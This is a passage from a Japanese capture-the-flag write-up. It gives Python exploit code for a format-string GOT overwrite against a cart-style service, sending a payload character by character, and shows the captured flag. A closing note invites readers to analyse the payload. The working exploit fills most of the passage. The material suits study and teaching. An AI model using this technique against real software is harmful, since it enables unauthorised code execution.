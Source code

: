 ``` py
    return struct.unpack(t, x)[0]

def unsigned(x):
    return u(p(x, t="<i"), t="<I")

def message(message_type, message_body, value=None):
    text = ""
    if value:
        text = "[{}] {}: 0x{:08x}".format(message_type, message_body, value)
    else:
        text = "[{}] {}".format(message_type, message_body)
    print text

# -----------------------------------------------------------------------------

def encode_to_item_number(c):
    return "b\n{}\n".format(ord(c))

s, f = connect()

got_putchar = 0x804f154 
payload = "%2052x%13$hn%35315x%12$hnPPP"
payload += p(got_putchar)
payload += p(got_putchar+2)
payload += "".join(map(chr, xrange(128, 256))) # <= it's important. 
for x in map(encode_to_item_number, payload):
    command, item_number = x.split()
    read_until(f, "command: ")
    f.write(command+'\n')
    read_until(f, "cart\n")
    f.write(item_number+'\n')
read_until(f, "command: ")
f.write('c\n')

read_until(f)
read_until(f)
read_until(f)
print read_until(f)
```

実行結果を以下に示す. "(...skip...)"は長いので省略ということである. 
``` sh
(...skip...)
                                                                                                                                                                    
                                                      FROG_KEROKERO
```

#### Conclusion
　いかがだっただろうか? 文字列の配置の仕方が少々特殊ではあるが, GOT Overwriteを利用する問題としては非常にオーソドックスであったと思う.   
　exploit中にある"it's important."という行に関して, 普通に実行した場合とこの行をコメントアウトした場合についてを比較して欲しい. また, なぜこの行が必要であるかも考察してほしい.   
